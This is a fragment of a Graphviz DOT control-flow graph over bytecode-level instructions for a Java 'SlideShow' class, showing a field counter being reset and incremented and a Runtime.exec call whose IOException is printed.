    "load.r r0"->"push 0";
    "push 0"->"fieldput <SlideShow: int i>";
    "fieldput <SlideShow: int i>"->"goto load.r r0";
    "ifne load.r r0"->"load.r r0";
    "load.r r0"->"load.r r0";
    "load.r r0"->"fieldget <SlideShow: int i>";
    "fieldget <SlideShow: int i>"->"push 1";
    "push 1"->"add.i";
    "add.i"->"fieldput <SlideShow: int i>";
    "fieldput <SlideShow: int i>"->"goto load.r r0";
    "virtualinvoke <java.io.IOException: void printStackTrace()>"
    "virtualinvoke <java.lang.Runtime: java.lang.Process exec(java.lang.String)>"->"virtualinvoke <java.io.IOException: void printStackTrace()>";
}
